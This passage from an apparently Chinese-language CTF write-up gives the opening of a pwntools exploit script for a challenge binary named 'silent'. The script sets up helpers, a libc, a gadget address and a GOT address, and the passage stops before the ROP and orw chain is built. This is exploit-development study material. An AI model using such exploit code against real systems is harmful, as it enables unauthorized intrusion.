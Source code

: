 效果：

[![](assets/1699929883-6be63881b47f1a1fa870f30e5034dfaf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231105004716-cf8c7668-7b31-1.png)

接下来直接orw构造链就好了

完整exp如下：

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./silent')
#p = remote('172.10.0.8', 9999)
libc=ELF('./libc-2.27.so')
elf=ELF('./silent')

def duan():
    gdb.attach(p)
    pause()

vul=0x4006A0

#0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret

magic_gadget=0x00000000004007e8
read_got=0x600FE0

bss=elf.bss()
leak('bss',bss)

```